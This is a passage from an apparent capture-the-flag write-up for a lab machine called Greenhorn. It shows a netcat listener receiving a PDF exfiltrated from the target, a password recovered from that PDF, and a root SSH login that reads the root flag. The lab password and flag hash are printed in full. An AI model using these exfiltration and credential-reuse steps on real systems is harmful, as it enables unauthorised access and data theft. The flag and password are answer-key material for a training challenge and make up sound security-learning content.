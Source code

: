 on kali: `nc -l -p 8000 > OpenVas.pdf`

This is the pdf:
![greenhorn-8](/images/greenhorn/Pasted image 20241001154457.png)

now we have to find this password

turn to png:
![greenhorn-9](/images/greenhorn/Pasted image 20241001161202.png)

![greenhorn-10](/images/greenhorn/Pasted image 20241001162412.png)


![greenhorn-11](/images/greenhorn/Pasted image 20241001162404.png)

![greenhorn-12](/images/greenhorn/Pasted image 20241001162436.png)

sidefromsidetheothersidesidefromsidetheotherside is the password

now try to ssh with root

```shell
ssh root@10.10.11.25     
root@10.10.11.25's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Oct  1 01:25:47 PM UTC 2024

  System load:  0.0               Processes:             224
  Usage of /:   57.0% of 3.45GB   Users logged in:       0
  Memory usage: 13%               IPv4 address for eth0: 10.10.11.25
  Swap usage:   0%


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~# ls
cleanup.sh  restart.sh  root.txt
root@greenhorn:~# cat root.txt
f6bb493b8724f283096c0481b5599a58
root@greenhorn:~# 

```

final flag: f6bb493b8724f283096c0481b5599a58
